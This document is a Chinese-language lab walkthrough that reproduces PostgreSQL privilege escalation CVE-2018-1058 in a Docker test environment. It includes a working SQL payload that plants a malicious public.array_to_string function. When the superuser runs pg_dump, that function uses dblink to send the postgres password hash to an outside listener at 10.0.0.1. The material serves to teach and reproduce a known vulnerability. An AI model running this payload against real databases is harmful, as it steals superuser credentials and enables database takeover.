

# PostgreSQL 提权漏洞（CVE-2018-1058）

PostgreSQL 是一个功能强大的开源关系型数据库系统。在9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下可能执行普通用户创建的恶意代码，从而造成意外的操作。

参考链接：

- https://wiki.postgresql.org/wiki/A_Guide_to_CVE-2018-1058:_Protect_Your_Search_Path
- https://xianzhi.aliyun.com/forum/topic/2109

## 环境搭建

执行以下命令启动存在漏洞的PostgreSQL服务器：

```
docker compose up -d
```

服务器将在默认的PostgreSQL端口5432上启动并监听。

## 漏洞复现

参考上述链接中的第二种利用方式，我们首先以普通用户`vulhub:vulhub`的身份连接PostgreSQL：

```bash
psql --host your-ip --username vulhub
```



执行以下SQL语句后退出：

```sql
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=10.0.0.1 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

现在，在`10.0.0.1`机器上监听5433端口，等待超级用户触发我们的"后门"。

（模拟超级用户操作）在目标机器上，以超级用户身份执行`pg_dump`命令：

```bash
docker compose exec postgres pg_dump -U postgres -f evil.bak vulhub
```

此命令将导出`vulhub`数据库的内容。当命令执行时，我们的"后门"被触发，`10.0.0.1`机器上收到敏感信息：


这仅仅是该漏洞的几种利用方法之一。要了解更多利用技术，请参考参考链接中的文章。
